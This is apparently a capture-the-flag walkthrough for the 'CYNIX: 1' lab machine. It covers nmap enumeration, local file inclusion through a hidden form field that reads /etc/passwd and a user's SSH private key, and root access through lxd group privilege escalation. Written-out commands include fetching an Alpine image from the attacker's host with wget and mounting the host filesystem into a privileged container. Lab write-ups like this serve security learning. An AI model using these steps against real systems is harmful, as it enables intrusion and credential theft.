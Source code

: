 
## This is my writeup and walkthrough for CYNIX: 1

## `Enumeration`
   
#### 1-Nmap 
`nmap -p- -A 192.168.1.3`

```Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-13 14:03 EET
Nmap scan report for 192.168.1.3
Host is up (0.00013s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
6688/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6d:df:0d:37:b1:3c:86:0e:e6:6f:84:b9:28:11:ee:68 (RSA)
|   256 8f:3e:c0:08:03:13:e8:64:89:f6:f9:63:b3:88:99:2a (ECDSA)
|_  256 fb:e3:40:e6:91:0b:3c:bc:b7:0e:c7:bd:ef:a2:93:fc (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
###### My focus was on Port 80 `http  Apache httpd 2.4.29 ((Ubuntu))`.
#### 2-website
first  i opened in my browser it redirect me to `http://192.168.1.3/lavalamp/` so lets see what we have 
its just single page with only contant form okey lets try to send data in this form and see the request in `burpsuite` 
![Screenshot from 2021-04-13 16-14-26](https://user-images.githubusercontent.com/34393428/114567382-7bf8b100-9c73-11eb-9098-e8adac347a57.png)
 
notic that this form action to ` /lavalamp/canyoubypassme.php` so lets discover this page 

![Screenshot from 2021-04-13 16-17-18](https://user-images.githubusercontent.com/34393428/114567759-d265ef80-9c73-11eb-9984-582015132664.png)

okey i see jusn an image so lets open inspect elemnets 
![Screenshot from 2021-04-13 16-18-45](https://user-images.githubusercontent.com/34393428/114567991-080ad880-9c74-11eb-8f04-3436b6de3723.png)
i notic here that i have in input so lets change `opacity` attribute to show the input 

![Screenshot from 2021-04-13 16-20-29](https://user-images.githubusercontent.com/34393428/114568265-4607fc80-9c74-11eb-92cf-46b76aea03fe.png)
 
okey lets enter value and  see what happen 
![Screenshot from 2021-04-13 16-22-00](https://user-images.githubusercontent.com/34393428/114568536-7ea7d600-9c74-11eb-9f1b-fda2354a687a.png)
## notic that i have `file` paramters 
at first time i think it maybe `LFI` & thats was a right expectation. 

![Screenshot from 2021-04-13 15-56-30](https://user-images.githubusercontent.com/34393428/114568725-ac8d1a80-9c74-11eb-8a55-5c5afd5f1e76.png) 
 but i need thing that to get an `RCE` OR something else .
 so lets have another see.

i noticed  `sshd:x:108:65534::/run/sshd:/usr/sbin/nologin` 
so we have ssh but forwich user !! 
if we look agian we will see that we have `ford` its user 
lets try to access his ssh directory  

![Screenshot from 2021-04-13 16-30-39](https://user-images.githubusercontent.com/34393428/114569950-b5cab700-9c75-11eb-8b01-aea718173c91.png)
this is ford privet key 
![Screenshot from 2021-04-13 16-35-29](https://user-images.githubusercontent.com/34393428/114570798-6933ab80-9c76-11eb-8057-1643ca5e2a98.png)
 i copied the id_rsa key in a text on my machine and finally get logged in.
## user flag
![Screenshot from 2021-04-13 16-40-07](https://user-images.githubusercontent.com/34393428/114571867-45bd3080-9c77-11eb-9207-933c4701ba6c.png)
 
 i found it in the home directory

## root flag

 its `lxd` ,so i have to create an image for lxd thus you need to perform the following the action

![Screenshot from 2021-04-13 16-49-27](https://user-images.githubusercontent.com/34393428/114632784-a96b4c00-9cbf-11eb-925f-841d5c7522ae.png)


#### lxd
```
XD is a next generation system container manager. It offers a user experience similar to virtual machines but using Linux containers instead.

It's image based with pre-made images available for a wide number of Linux distributions and is built around a very powerful, yet pretty simple, REST API.

To get a better idea of what LXD is and what it does, you can try it online! Then if you want to run it locally, take a look at our getting started guide.

The LXD project was founded and is currently led by Canonical Ltd with contributions from a range of other companies and individual contributors.
```
i found an exploit for `lxd` 
so lets try it 
#### steps 

<b> on attacker machcine </b>  :
```
1- git clone  https://github.com/saghul/lxd-alpine-builder.git
2- cd lxd-alpine-builder
3- ./build-alpine
```
on running the above command, a tar.gz file is created
open python server to allow to target machine to download it 
`4-python -m SimpleHTTPServer`


<b> target machine </b> 

``` 
1-cd /tmp
2-wget http://192.168.1.107:8000/apline-v3.10-x86_64-20191008_1227.tar.gz
```
```
1-lxc image import ./apline-v3.10-x86_64-20191008_1227.tar.gz --alias myimage

2-lxc init myimage ignite -c security.privileged=true
3-lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
4-lxc start ignite
5-lxc exec ignite /bin/sh
6-id
cat /root/root.txt
```

